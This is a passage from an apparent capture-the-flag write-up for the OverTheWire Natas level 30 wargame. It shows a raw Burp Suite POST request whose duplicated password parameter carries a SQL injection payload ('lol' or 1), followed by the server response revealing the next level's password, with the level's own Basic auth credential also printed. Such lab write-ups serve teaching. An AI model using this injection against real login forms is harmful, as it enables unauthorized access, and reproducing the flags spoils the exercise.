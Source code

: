 ```
win!<br>here is your result:<br>natas31m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 🔐
</div>
</body>
</html>

Method 3: Burp Suite:
POST /index.pl HTTP/1.1
Host: natas30.natas.labs.overthewire.org
Content-Length: 47
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMDpXUWh4MUJ2Y21QOWlyczJNUDl0Um5Mc05hREk3NllySA==
Accept-Language: en-US,en;q=0.9
Origin: http://natas30.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas30.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=natas28&password='lol'+or+1&password=4 👀

Look at Response:
HTTP/1.1 200 OK
Date: Thu, 07 Aug 2025 22:27:47 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1327
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas30", "pass": "WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">

<!-- morla/10111 <3  happy birthday OverTheWire! <3  -->

<h1>natas30</h1>
<div id="content">

<form action="index.pl" method="POST">
Username: <input name="username"><br>
Password: <input name="password" type="password"><br>
<input type="submit" value="login" />
</form>
win!<br>here is your result:<br>natas31m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 🔐
</div>
```